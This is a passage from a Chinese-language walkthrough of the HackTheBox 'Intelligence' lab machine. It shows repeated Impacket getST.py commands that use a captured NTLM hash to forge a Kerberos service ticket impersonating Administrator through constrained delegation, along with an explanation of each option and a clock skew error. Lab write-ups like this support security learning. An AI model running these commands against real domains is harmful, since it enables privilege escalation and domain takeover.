```plain
getST.py -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8  -impersonate administrator intelligence.htb/svc_int

getST.py -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes : 87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate administrator intelligence.htb/svc_int

svc_int$:::87c12d4a0641b2b17fb5620cc2db2ca8

getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate Administrator
getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8  -impersonate Administrator


getST.py -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate administrator intelligence.htb/svc_int
 getST.py intelligence.htb/svc_int$ -spn WWW/dc.intelligence.htb -hashes :87c12d4a0641b2b17fb5620cc2db2ca8 -impersonate Administrator
```

## 获取门票

使用 getST.py 来制作票据。我需要传递以下选项：  
● -dc-ip 10.10.10.248  
● -spn www/dc.intelligence.htb- SPN（见下文）  
● -hashes :5e47bac787e5e1970cf9acdb5b316239- 我之前收集的 NTLM  
● -impersonate administrator- 我想要票的用户  
● intelligence.htb/svc\_int- 我正在运行的帐户  
要获取 SPN，请在 Bloodhound 中 svc\_int 用户的节点信息 -> 节点属性部分中获取：

[![](assets/1701071906-2a0b27166a137aa6cc24224b92c76768.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125213218-0deff20c-8b97-1.png)

## 修复时间偏差

当我运行它时，它提示因为时间偏差而关闭。

[![](assets/1701071906-db7aaed188c1487039c505c1fa407801.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125213231-15f1fbbc-8b97-1.png)
